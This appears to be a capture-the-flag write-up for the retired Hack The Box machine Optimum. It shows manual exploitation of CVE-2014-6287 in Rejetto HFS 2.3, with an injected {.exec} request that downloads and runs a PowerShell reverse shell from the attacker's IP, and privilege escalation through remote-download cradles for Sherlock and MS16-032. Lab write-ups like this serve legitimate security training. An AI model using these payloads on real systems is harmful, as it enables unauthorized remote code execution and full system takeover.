

# Optimum

This is the write-up for the box Optimum that got retired at the 28th October 2017.
My IP address was 10.10.14.23 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.8    optimum.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/optimum.nmap 10.10.10.8
```

```markdown
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Checking HTTP (Port 80)

On the web page there is an application called **HttpFileServer 2.3**.



Looking for exploits for this service we find **Rejetto HTTP File Server 2.3.x - Remote Code Execution** with the CVE number [CVE-2014-6287](https://nvd.nist.gov/vuln/detail/CVE-2014-6287).

The description is as follows:
> The findMacroMarker function in parserLib.pas in Rejetto HTTP File Server (aks HFS or HttpFileServer) 2.3x before 2.3c allows remote attackers to execute arbitrary programs via a %00 sequence in a search action.

Instead of using the Metasploit Module, I will exploit this vulnerability manually.

### Explaining and using the exploit

The HFS application has an internal scripting language that uses some characters like curly brackets, pipe symbols and dots. It has a regular expression that searches and replaces these characters in the Search parameter.
When sending a _NULL Byte_ in the Search query, this will terminate the regular expression but everything after the NULL Byte will not be replaced.

Before doing this, we need to know which characters to send. This can be found out by reading the [Rejetto wiki](https://rejetto.com/wiki/index.php?title=HFS:_scripting_commands). The parameter **exec** is what we need to send to execute commands.
```markdown
Example: {.exec|notepad.}
```

Lets send a request with **%00** in the search bar, to _Burpsuite_ and modify the requests in the **Repeater**.
For testing we can send a simple `ping` command to verify that it works the correct way:
```markdown
GET /?search=%00{.exec|ping 10.10.14.23.} HTTP/1.1
```

The `tcpdump` on my local machine waits for connections and after sending this request it outputs the ICMP packets. This means successful command execution and we can start a reverse shell on this box.

For this task I will use the Powershell script **Invoke-PowerShellTcp.ps1** from the **Nishang Framework** that will listen on my IP and port 9001.
```markdown
GET /?search=%00{.exec|C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.23:8000/Invoke-PowerShellTcp.ps1').} HTTP/1.1

# URL-encoded
GET /?search=%00{.exec|C%3a\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.14.23%3a8000/shell.ps1').} HTTP/1.1
```

After executing this the listener will start a reverse shell and we are the user _kostas_ on the box.

## Privilege Escalation

Searching for vulnerabilities now by using **Sherlock.ps1** with the _Find-AllVulns function_ to get information about hotfixes.
 ```markdown
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.23:8000/Sherlock.ps1')
```

It appears to be vulnerable against **MS016-032 - Secondary Logon Handle** which can be exploited with the script _Invoke-MS16032.ps1_.
```markdown
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.23:8000/Invoke-MS16032.ps1')
```

This script will download another **Invoke-PowerShellTcp.ps1** that listens on port 9002 to start a new reverse shell but with elevated privileges.
After the files get downloaded and executed our listener starts and we are _NT Authority\SYSTEM_ on the box!
